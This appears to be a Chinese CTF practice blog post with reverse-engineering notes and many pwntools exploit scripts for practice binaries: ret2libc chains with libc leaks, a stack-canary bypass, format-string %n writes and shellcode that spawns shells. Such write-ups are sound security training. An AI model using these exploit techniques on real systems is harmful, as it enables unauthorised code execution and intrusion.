


layout: post
title: （不定期更新）二进制ctf练习
author: junyu33
mathjax: true
tags: 

- reverse
- pwn
- python

categories:

  - 笔记

date: 2022-2-7 22:00:00

---

分为re、pwn和other三部分，用作记录思路和用得上的gadget。

<!-- more -->

# re

## xctf-re-50: catch-me

getenv函数用来获取环境变量，python中手动设置环境变量的脚本如下：

```python
# if ASIS == CTF == 0x4ff2da0a, then
export ASIS="$(printf "\x0a\xda\xf2\x4f")"
export CTF="$(printf "\x0a\xda\xf2\x4f")"
```

~~我那几十行的浮点指令白看了~~

## buu-n1book-re: babyalgo

常见算法识别，容易看见密文和密钥，就猜是什么加密算法呗。

（30min后......）

cyberchef一个个都试完了，全都解不出来...

查看题解，发现是RC4，然后发现cyberchef的base64加密和RC4的解密结果都是错的，真无语。

RC4算法识别：


从网上嫖来的解密脚本：

```python
import base64
def rc4_main(key = "init_key", message = "init_message"):
    print("RC4解密主函数调用成功")
    print('\n')
    s_box = rc4_init_sbox(key)
    crypt = rc4_excrypt(message, s_box)
    return crypt
def rc4_init_sbox(key):
    s_box = list(range(256))
    print("原来的 s 盒：%s" % s_box)
    print('\n')
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    print("混乱后的 s 盒：%s"% s_box)
    print('\n')
    return s_box
def rc4_excrypt(plain, box):
    print("调用解密程序成功。")
    print('\n')
    plain = base64.b64decode(plain.encode('utf-8'))
    plain = bytes.decode(plain)
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    print("res用于解密字符串，解密后是：%res" %res)
    print('\n')
    cipher = "".join(res)
    print("解密后的字符串是：%s" %cipher)
    print('\n')
    print("解密后的输出(没经过任何编码):")
    print('\n')
    return cipher
a=[0xc6,0x21,0xca,0xbf,0x51,0x43,0x37,0x31,0x75,0xe4,0x8e,0xc0,0x54,0x6f,0x8f,0xee,0xf8,0x5a,0xa2,0xc1,0xeb,0xa5,0x34,0x6d,0x71,0x55,0x8,0x7,0xb2,0xa8,0x2f,0xf4,0x51,0x8e,0xc,0xcc,0x33,0x53,0x31,0x0,0x40,0xd6,0xca,0xec,0xd4]
s=""
for i in a:
    s+=chr(i)
s=str(base64.b64encode(s.encode('utf-8')), 'utf-8')
rc4_main("Nu1Lctf233", s)

```

## susctf-re: DigitalCircuits

给出了一个python打包的exe。我们使用`PyInstaller Extractor`解包。

得到了一堆pyc、pyd、dll文件，我们找到`DigitalCircuits`文件和`struct`文件，将后者的前16个字节append到前者的文件头，使用`uncompyle6`或者`pycdc`反编译为源码。

~~通过数电知识~~，我们可以分析前九个函数对应的含义，得到以下代码:

```python
import time

def AND(a, b):
    if a == '1':
        if b == '1':
            return '1'
    return '0'


def OR(a, b):
    if a == '0':
        if b == '0':
            return '0'
    return '1'


def NOT(a):
    if a == '1':
        return '0'
    if a == '0':
        return '1'


def XOR(a, b):
    return OR(AND(a, NOT(b)), AND(NOT(a), b))


def ADD(x, y, z): #low -> high
    s = XOR(XOR(x, y), z)
    c = OR(AND(x, y), AND(z, OR(x, y)))
    return (s, c)


def str_ADD(a, b):
    ans = ''
    z = '0'
    a = a[::-1]
    b = b[::-1]
    for i in range(32):
        ans += ADD(a[i], b[i], z)[0]
        z = ADD(a[i], b[i], z)[1]

    return ans[::-1]


def SHL(a, n):
    return a[n:] + '0' * n


def SHR(a, n):
    return n * '0' + a[:-n]


def str_XOR(a, b):
    ans = ''
    for i in range(32):
        ans += XOR(a[i], b[i])

    return ans


def f10(v0, v1, k0, k1, k2, k3):
    s = '00000000000000000000000000000000'
    d = '10011110001101110111100110111001'
    for i in range(32):
        s = str_ADD(s, d)
        v0 = str_ADD(v0, str_XOR(str_XOR(str_ADD(SHL(v1, 4), k0), str_ADD(v1, s)), str_ADD(SHR(v1, 5), k1)))
        v1 = str_ADD(v1, str_XOR(str_XOR(str_ADD(SHL(v0, 4), k2), str_ADD(v0, s)), str_ADD(SHR(v0, 5), k3)))

    return v0 + v1

k0 = '0100010001000101'.zfill(32)
k1 = '0100000101000100'.zfill(32)
k2 = '0100001001000101'.zfill(32)
k3 = '0100010101000110'.zfill(32)
flag = input('please input flag:')
if flag[0:7] != 'SUSCTF{' or flag[(-1)] != '}':
    print('Error!!!The formate of flag is SUSCTF{XXX}')
    time.sleep(5)
    exit(0)
flagstr = flag[7:-1]
if len(flagstr) != 24:
    print('Error!!!The length of flag 24')
    time.sleep(5)
    exit(0)
else:
    res = ''
    for i in range(0, len(flagstr), 8):
        v0 = flagstr[i:i + 4]
        v0 = bin(ord(flagstr[i]))[2:].zfill(8) + bin(ord(flagstr[(i + 1)]))[2:].zfill(8) + bin(ord(flagstr[(i + 2)]))[2:].zfill(8) + bin(ord(flagstr[(i + 3)]))[2:].zfill(8)
        v1 = bin(ord(flagstr[(i + 4)]))[2:].zfill(8) + bin(ord(flagstr[(i + 5)]))[2:].zfill(8) + bin(ord(flagstr[(i + 6)]))[2:].zfill(8) + bin(ord(flagstr[(i + 7)]))[2:].zfill(8)
        res += f10(v0, v1, k0, k1, k2, k3)

    if res == '001111101000100101000111110010111100110010010100010001100011100100110001001101011000001110001000001110110000101101101000100100111101101001100010011100110110000100111011001011100110010000100111':
        print('True')
    else:
        print('False')
time.sleep(5)

```

将f10中的`10011110001101110111100110111001`转为16进制结果为`0x9e3779b9`，上网查询是TEA/XTEA/XXTEA的一种特殊常数，再进一步分析源码可知是TEA。

附上C解密脚本：

```c
#include <stdio.h>
#include <stdint.h>
#define DELTA 0x9e3779b9
#define MX (((z>>5^y<<2) + (y>>3^z<<4)) ^ ((sum^y) + (key[(p&3)^e] ^ z)))

void btea (uint32_t* v,int n, uint32_t* k) {
	uint32_t v0=v[0], v1=v[1], sum=0xC6EF3720, i;  /* set up */
	uint32_t delta=0x9e3779b9;                     /* a key schedule constant */
	uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   /* cache key */
	for (i=0; i<32; i++) {                         /* basic cycle start */
		v1 -= ((v0<<4) + k2) ^ (v0 + sum) ^ ((v0>>5) + k3);
		v0 -= ((v1<<4) + k0) ^ (v1 + sum) ^ ((v1>>5) + k1);
		sum -= delta;
	}                                              /* end cycle */
	v[0]=v0; v[1]=v1;
}


int main()
{
	uint32_t v[2]= {0x3e8947cb,0xcc944639};
	uint32_t w[2]= {0x31358388,0x3b0b6893};
	uint32_t x[2]= {0xda627361,0x3b2e6427};

	uint32_t const k[4]= {17477,16708,16965,17734};
	int n = 2; //n的绝对值表示v的长度，取正表示加密，取负表示解密
	// v为要加密的数据是两个32位无符号整数
	// k为加密解密密钥，为4个32位无符号整数，即密钥长度为128位
	btea(v, -n, k);
	printf("%x %x ",v[0],v[1]);
	btea(w, -n, k);
	printf("%x %x ",w[0],w[1]);
	btea(x, -n, k);
	printf("%x %x",x[0],x[1]);
	return 0;
}
```


# pwn

## ctfshow-pwn-3: pwn03

没有sys和```'bin/sh'```的ret2libc。

可以使用 https://libc.blukat.me/ 查询libc库的各函数地址，再根据偏移计算其他函数的实际地址。

也可以使用[LibcSearcher](https://github.com/lieanu/LibcSearcher)自动化完成这一过程。

exp（without LibcSearcher）：

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
#io = process("./stack1")
io = remote('pwn.challenge.ctf.show', 28199)

elf = ELF("./stack1")
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main_addr = elf.symbols["main"]
payload1 = flat(b"A" * (9 + 4), puts_plt, main_addr, puts_got)  # 泄露puts_got
io.recvuntil("\n\n")
io.sendline(payload1)
puts_addr = unpack(io.recv(4))
print(hex(puts_addr))
# 0xf7d6d360 查一下 https://libc.blukat.me/

puts_libc = 0x067360
system_libc = 0x03cd10
str_bin_sh_libc = 0x17b8cf

base = puts_addr - puts_libc
system = base + system_libc
bin_sh = base + str_bin_sh_libc

payload2 = flat('a' * 13, system, 1, bin_sh )
io.sendline(payload2)
io.interactive()
```

exp (with LibcSearcher, tested)

```python
from pwn import*
from LibcSearcher import*
elf=ELF('./pwn03')
#io=process('./pwn03')
io=remote('111.231.70.44',28021)
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.symbols['main']
payload1=b'a'*13+p32(puts_plt)+p32(main)+p32(puts_got)
io.sendline(payload1)
io.recvuntil('\n\n')
puts_add=u32(io.recv(4))
print(puts_add)

libc=LibcSearcher('puts',puts_add)
libcbase=puts_add-libc.dump('puts')
sys_add=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')
payload2=b'a'*13+p32(sys_add)+b'a'*4+p32(bin_sh)
io.sendline(payload2)
io.interactive()
```

## buu-pwn: pwn1_sctf_2016

c++乱入系列，那个`replace()`直接没看懂。

而且自己的输入长度超过31就会被截断，完全无法栈溢出。

后来看了题解才知道`replace()`是把你输入的`I`全部替换成`you`。

再结合`vuln()`最后使用了危险的`strcpy()`函数，我一下子就知道怎么做了。

因为输入点与retn的偏移是60，因此只需要输入20个`I`，再加上后门地址即可。

看来以后碰到奇怪的字符串得输进去试试，说不定会有新发现。

## ctfshow-pwn-4: pwn04

带canary的栈溢出，可以读入2次并输出buf串。

通过IDA调试可知，canary的位置紧邻buf串且在它下游，因此不能直接覆盖到返回地址。

但是canary的最高位始终是0，我们便有了如下办法：

> 第一次读入时只将缓冲区填满，最后的换行符覆盖canary的高位，在第二次输入时减去这个换行符对应的ascii即可。

```python
from pwn import*
context.log_level = 'debug'
#elf=ELF('./stack1')
io=process('./ex2')
#io=remote('pwn.challenge.ctf.show', 28140)

payload1=b'I'*100
io.recvuntil('\n')
io.sendline(payload1)
fst_str = io.recvuntil('\x68') #canary之后一个固定的字节
#print(hex(u32(fst_str[-5:-1])))

canary = u32(fst_str[-5:-1])
payload2=b'I'*100+p32(canary-0xa)+b'bbbbccccdddd'+p32(0x804859b) #'0xa'是换行符的ascii
io.sendline(payload2)

io.interactive()
```

~~原来这叫格式化字符串漏洞啊~~

## ctfshow-pwn-6: pwn06

64位栈溢出与32位的一个不同点是必须保证堆栈平衡，因此需要return两次。

~~但是在本地，我return一次就成功了。至今不知道原因~~

```python
from pwn import*
#context.log_level = 'debug'

#elf=ELF('./stack1')
#io=process('./pwn')
io=remote('pwn.challenge.ctf.show', 28122)

payload1=b'I'*12+b'AAAAAAAA'+p64(0x4005b6)+p64(0x400577)
io.sendline(payload1)

io.interactive()
```

## ctfshow-pwn-7: pwn07

64位的pwn3.

由于[64位的传参方式](https://junyu33.github.io/2022/01/15/csapp.html#%E8%BF%87%E7%A8%8B)为“前6个是寄存器，之后使用栈”，退栈的时候要取出寄存器的值。因此需要找到`pop_rdi`和`pop_ret`的值，并插入到payload中。

找`pop_rdi`和`pop_ret`指令地址的命令：

```shell
ROPgadget --binary pwn --only 'pop|ret' 
```

然后payload格式是这样的：

```python
# for 32 bit
b'a'*offset + p32(puts_plt) + p32(ret_addr) + p32(puts_got)
b'a'*offset + p32(sys_addr) + b'A'*4 + p32(str_bin_sh)
# for 64 bit
b'a'*offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(ret_addr)
b'a'*offset + p64(pop_ret) + p64(pop_rdi) + p64(str_bin_sh) + p64(sys_addr)
```

exp (with LibcSearcher, tested)

```python
# ctf.show - libc6_2.27
from pwn import*
from LibcSearcher import*
context.log_level = 'debug'
elf=ELF('./pwn')
#io=process('./pwn')
io=remote('pwn.challenge.ctf.show',28184)
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.symbols['main']

pop_rdi = 0x4006e3
pop_ret = 0x4004c6

payload1=b'a'*20+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
io.sendline(payload1)
io.recvline()
str_first = io.recv(6).ljust(8,b'\x00')
puts_add=u64(str_first)
print(hex(puts_add))

libc=LibcSearcher('puts',puts_add)

libcbase=puts_add-libc.dump('puts')
sys_add=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')

payload2=b'a'*20+p64(pop_ret)+p64(pop_rdi)+p64(bin_sh)+p64(sys_add)
io.sendline(payload2)
io.interactive()
```

~~然而神奇的是这个代码本地又不行了~~

## buu-pwn: ciscn_2019_c_1

带加密的pwn07.（经过测试发现，其实不对输入做处理也可以getshell）

获取got表地址的exp：

```python
io.recvuntil('!\n')
io.sendline(b'1')
io.recvuntil('\n')
payload1=b'l'*88+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
io.sendline(payload1)
io.recvline()
io.recvline()

str_first = io.recv(6).ljust(8,b'\x00')
```

也就是这个位置：



> 为什么pop_rdi的地址还在那个位置，而且长度还变短了？

## xctf-pwn-(beginner)-4: string

格式化字符串。~~逐渐变得不是那么面向萌新了~~

对于格式不规范的printf函数，有以下利用方式：

>技能一：使用printf函数查看堆栈中的数据：
>
>`1234-%p-%p-%p-%p-%p-...-%p`
>
>如果输出以上这一段，所有的`%p`都会替换成一个地址。
>
>~~然而我并不知道这些地址跟IDA调试时看到的地址有什么关系~~
>
>技能二：修改对应位置的数据：
>
>例如`%85d%7$n`就是把第7个`%p`对应的地址的**值**修改为85

问题的核心就是如何能够修改secret数组的值。把secret[0]改为85或者把secret[1]改为68。

明显的利用点是那个问address和wish的那两个scanf，还有那个非规范的printf。

如果按照之前的栈溢出的思路肯定不行，因为有canary。

题解的思路是将secret[0]的地址写到第一个scanf里，然后`printf('1234-%p-%p-%p-%p-%p-...-%p')`，发现之前写的地址在第7个`%p`里。于是重新运行，便有了`printf('%85d%7$n')`.

然后是输入spell的部分，`mmap`是一个内存映射函数，内容可执行，直接上一句话shell。

```python
io.sendline(asm(shellcraft.sh()))
```

### 另解

通过ida调试后发现main函数中的secret地址，与非规范的printf离得并不远，不超过100h。

如果你有足够耐心，会发现输入25个%p后对应的恰好就是secret的地址，而且这个值跟之前的7一样，不会变动。~~所以之前那个输入地址的scanf是完全不需要的。~~

exp:

```python
# ctf.show + buuoj - libc6_2.27
from pwn import*
from LibcSearcher import*
context.arch = 'amd64'
context.log_level = 'debug'

#io = process('./3')
#io = remote('111.200.241.244',64533)

io.recv()
io.sendline('1')
io.recv()
io.sendline('east')
io.recv()
io.sendline('1')
io.recv()
#asking address
io.sendline('1')
io.recvline()
io.sendline('%85d%25$n')
io.recv()
io.sendline(asm(shellcraft.sh()))

io.interactive()
```

## buu-pwn: 第五空间决赛pwn5

pwntools工具：fmtstr用于格式化字符串漏洞。

`fmtstr_payload(offset,{address1:value1})`

如何计算偏移，例如：

```c
your name:AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p 
Hello,AAAA-0xffffd0d8-0x63-(nil)-0xf7ffdb30-0x3-0xf7fc3420-0x1-(nil)-0x1-0x41414141-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025
// so the offset is 10
```

使用工具的exp（tested）:

```python
from pwn import *
#io = process('./pwn')
io = remote('node4.buuoj.cn',27411)
context.log_level = 'debug'
#gdb.attach()

rand_addr = 0x804c044
payload = fmtstr_payload(10, {rand_addr:123456})
io.recv()
io.sendline(payload)
io.recv()
io.sendline('123456')
io.interactive()
```

不使用工具的exp~~（然而我并不理解其中的含义）~~:

### updated on 2,25

`$n`代表已经先前成功输出的字节数，在这儿是四个int，也就是`0x10`.

而之前我们算出到输入的偏移是10，因此就从%10开始，把`0x804c044`~`0x804c047`的地址全部复制为`0x10`.

因此我们最后输入`10101010`即可满足条件。

```python
from pwn import*

io=remote('node4.buuoj.cn',27411)

payload=p32(0x804c044)+p32(0x804c045)+p32(0x804c046)+p32(0x804c047)
payload+=b'%10$n%11$n%12$n%13$n'

io.sendline(payload)
io.sendline(str(0x10101010))
io.interactive()
```

## xctf-pwn-(beginner)-7: cgpwn2

带system，不带`'/bin/sh'`的ret2libc，关键部分如下：

```python
payload = b'a'*42 + p32(gets_plt) + p32(pop_ebx) + p32(buf2) + p32(system_plt) + p32(0xdeadbeef) + p32(buf2)
io.sendline(payload)
io.sendline('cat flag')
```

**原理有空再补。**

## xctf-pwn-(beginner)-8: level3

依旧是ret2libc，只不过没有`puts`函数，泄露libc地址的payload需要变化一下：



```python
payload = flat([b'A' * 140, write_plt, main, 1, write_got]) # a more argument '1' is needed.
```

很不幸，这次Libcsearcher的匹配结果都没有用，但是题目下发了一个`libc_32.so.6`，我们需要利用这个文件本地导入libc库。

```python
libc=ELF('./libc_32.so.6') #import

libcbase = libc_start_main_addr - libc.symbols['write'] 
system_addr = libcbase + libc.symbols['system'] #leak
binsh_addr = libcbase + 'bin_sh_addr' # we can't use 'symbols' to get address, we do it manually.
```

那么`'bin/sh'`怎么办呢，使用这个bash：

```sh
strings -a -t x libc_32.so.6 | grep "bin/sh" 
```

### 如何在本地打通libc——3/18/2022

```sh
ls -l /lib/x86_64-linux-gnu/libc.so.6 # find your local libc, it's "libc-2.27.so" in wsl ubuntu 18.04.
# make sure to change your "import" and your "strings & grep" commands. 
```

> 获得成就：xctf-pwn新手区完结撒花！

## ctfshow-pwn-10: dota

前两个问题很简单，`-2147483648`相反数为本身这个是我才从csapp学到的。

然后是格式化字符串，`fmtstr_payload`报错，说只能在32bit范围内运行，没办法只能手动构造。

经过手动输出栈地址可知偏移为8.

当时我没经验，一直把想修改数据的地址放在`%25d%9$n`或者`%25c%9$n`（为什么这两个都可以？）的前面。最后看了别人的wp才知道只能放在后面，跟printf函数一样。

然后是64位的ret2libc3，然而我并不知道别人的wp是怎么找到`pop_rdi`的地址的。

完整脚本：

```python
from pwn import *
from LibcSearcher import *
io = process('./dota.dota')
#io = remote('pwn.challenge.ctf.show', 28085)
context.log_level = 'debug'
elf=ELF('./dota.dota')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.symbols['main']

io.sendline('dota')
io.sendline('-2147483648')
io.recvuntil('小提问：dota1中英雄最高等级为多少？')
io.recv(3)
addr_str = io.recv(14)
addr_str = addr_str[:-1]
rand_addr = int(addr_str,16)

payload = b'%25c%9$n' + p64(rand_addr) # alternative '%25d%9$n'

io.sendline(payload)

pop_rdi = 0x4009b3 #???????
pop_ret = 0x40053e

payload1=b'a'*136+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)

io.recvuntil('\x0a')
io.sendline(payload1)

str_first = io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')
puts_add=u64(str_first)
print(hex(puts_add))

libc=LibcSearcher('puts',puts_add)

libcbase=puts_add-libc.dump('puts')
sys_add=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')

payload2=b'a'*136+p64(pop_ret)+p64(pop_rdi)+p64(bin_sh)+p64(sys_add)
io.sendline(payload2)
io.interactive()

```

## 《ctf竞赛权威指南pwn》9.2.3: fmtstr ret2libc 

给出了源码：

```c
#include<stdio.h>

void main() {
	char str[1024];
	while(1) {
		memset(str, '\0', 1024);
		read(0, str, 1024);
		printf(str);
		fflush(stdout);
    }
}
//gcc -m32 -fno-stack-protector 9.2_fmtdemo4.c -o fmtdemo -g
```

shellcode:

```python
from pwn import *
io = process('./fmtdemo')
#io = remote('node4.buuoj.cn',27411)
context.log_level = 'debug'
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('fmtdemo')
#gdb.attach()

printf_got = elf.got['printf'] # 0x80fc010
libc_printf = libc.symbols['printf']
libc_system = libc.symbols['system']

io.sendline(p32(printf_got) + b'%4$s') # *plt = got， *got = real_addr
printf_addr = u32(io.recv()[4:8])
libc_base = printf_addr - printf_got
log.success("libc_base:"+hex(libc_base))

print(hex(printf_addr))
payload = fmtstr_payload(4, {printf_got:printf_addr-libc_printf+libc_system})

io.sendline(payload)

io.interactive()

```

## buu-pwn: get_started_3dsctf_2016

32bit。

程序给了一个读取flag的后门，但需要你传入正确的两个参数。

学会了gdb调试，回忆起来了return addr和函数参数之前隔了一个返回地址。函数参数是正序书写的。

程序在exit时会刷新缓冲区地址，从而可以用`recv()`得到文件输出。

```python
from pwn import*
from LibcSearcher import*

#io = process(argv = ['./get_started_3dsctf_2016'])
io = remote('node4.buuoj.cn', 27428)

backdoor = 0x80489a0
main_addr = 0x8048a20
exit_addr = 0x804e6a0
#gdb.attach(io, 'b *0x8048a3d')
context.log_level = 'debug'

payload1 = b'a'*56 + p32(backdoor) + p32(exit_addr) +p32(0x308CD64F) + p32(0x195719D1)

io.sendline(payload1)

print(io.recv())

#io.interactive()

```


# other

## buu-re: rsa

~~真不知道这道题为什么要放在re里面。~~

已知公钥pub.key和密文flag.enc，而且公钥较小可暴力分解p、q。

1. `openssl rsa -pubin -text -modulus -in pub.pem`获取$e$和$n$.

2. 使用factordb分解$n$，得到$p$与$q$.

3. `python rsatool.py -o private.pem -e <your e> -p <your p> -q <your q>`输出密钥。

   > 适配python3的rsatool的下载地址：https://github.com/ius/rsatool

2. `openssl rsautl -decrypt -in flag.enc -inkey private.pem`获得原文。

## tqlctf2022-misc: wizard

哈希碰撞 + 瞎蒙答案：

```python
from pwn import*

for i in range (100):
        r=remote('120.79.12.160', 32517)
        context.log_level = 'debug'

        fo = open('./1.txt','r')
        r.recvuntil('h ')
        req = bytes(r.recv(6))
        ti = 0
        for j in fo:
                j = bytes(j, 'utf-8')
                if j == req:
                        #print(ti)
                        ti += 1000000
                        r.sendline(str(ti))
                        r.recv()
                        r.recv()
                        #r.recvuntil('\n')
                        r.sendline('G 100') # I chose '100' arbitrarily 
                        r.recvuntil('You are ')
                        #print(r.recv(1))
                        if r.recv(1) == b's':
                                r.interactive()
                        break
                ti += 1
```

## xctf-mobile-(beginner)-6: easy-apk

换表base64，上python脚本

```python
import base64
import string

str1 = "5rFf7E2K6rqN7Hpiyush7E6S5fJg6rsi5NBf6NGT5rs="

string1 = "vwxrstuopq34567ABCDEFGHIJyz012PQRSTKLMNOZabcdUVWXYefghijklmn89+/"
string2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

print(base64.b64decode(str1.translate(str.maketrans(string1,string2))))
```

